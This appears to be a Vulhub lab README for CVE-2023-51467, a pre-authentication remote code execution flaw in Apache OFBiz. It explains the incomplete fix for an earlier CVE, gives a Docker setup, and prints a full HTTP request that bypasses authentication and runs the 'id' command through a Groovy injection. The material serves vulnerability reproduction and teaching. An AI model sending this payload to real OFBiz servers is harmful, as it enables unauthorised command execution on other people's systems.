# Apache OFBiz Authentication Bypass Leads to RCE (CVE-2023-51467)

[中文版本(Chinese version)](README.zh-cn.md)

Apache OFBiz is an open source enterprise resource planning (ERP) system. It provides a suite of enterprise applications that integrate and automate many of the business processes of an enterprise.

This vulnerability occurs as a result of incomplete fixing for [CVE-2023-49070](https://github.com/vulhub/vulhub/tree/master/ofbiz/CVE-2023-49070). In Apache OFBiz version 18.12.10, the developers removed the XMLRPC to fix the previous RCE issue, but the authentication bypass still exists. The researcher from Chaitin Tech found another attack approach to perform the pre-auth RCE using Groovy expression injection.

References:

- <https://github.com/apache/ofbiz-framework/commit/d8b097f6717a4004acf023dfe929e0e41ad63faa>
- <https://xz.aliyun.com/t/13211>
- <https://y4tacker.github.io/2023/12/27/year/2023/12/Apache-OFBiz%E6%9C%AA%E6%8E%88%E6%9D%83%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%B5%85%E6%9E%90-CVE-2023-51467/>

## Vulnerable environment

Executing following command to start an Apache OfBiz 18.12.09 server:

```
docker compose up -d
```

After a short wait, you can see the login page at `https://localhost:8443/accounting`.

## Vulnerability Reproduce

Send following request to execute command `id` by Groovy script:

```
POST /webtools/control/ProgramExport/?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
Host: localhost:8443
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 55

groovyProgram=throw+new+Exception('id'.execute().text);
```

![](1.png)

